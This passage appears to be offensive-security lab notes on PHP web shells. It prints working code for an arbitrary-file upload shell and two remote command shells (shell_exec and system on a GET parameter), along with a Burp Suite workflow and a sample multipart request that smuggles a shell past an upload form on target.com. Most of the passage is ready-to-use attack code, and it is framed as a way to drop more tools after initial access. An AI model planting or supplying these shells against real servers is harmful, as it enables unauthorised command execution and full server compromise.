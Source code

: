 ### Simple Upload Web Shell

```php
<form method="POST" enctype="multipart/form-data">
<input type="file" name="file">
<input type="submit" value="Upload">
</form>
<?php
if ($_FILES['file']) {
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
}
?>
```

- Lets you upload additional shells/files once initial access is gained
- Used to **escalate control** or drop more tools

### PHP+JS Hybrid (Browser Exploitable)

```php
<?php
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; 
?>
```

- View clean output in browser (renders `<pre>` tag)
- **Access via**: `shell.php?cmd=ls -la`
- Easier for visibility/debugging in labs

## Uploading Web Shells with Burp

### Step-by-step Workflow

1. **Start Burp Intercept**  
   - Enable Intercept in **Proxy > Intercept**
   - Go to the upload form in your browser
   - Select your shell (e.g., `shell.php`)

2. **Intercept the Request**
   - Burp will capture the HTTP POST request

3. **Modify the Request in Raw Tab**

Here’s an example **original HTTP request**:

```http
POST /upload.php HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ

------WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryXYZ--
```
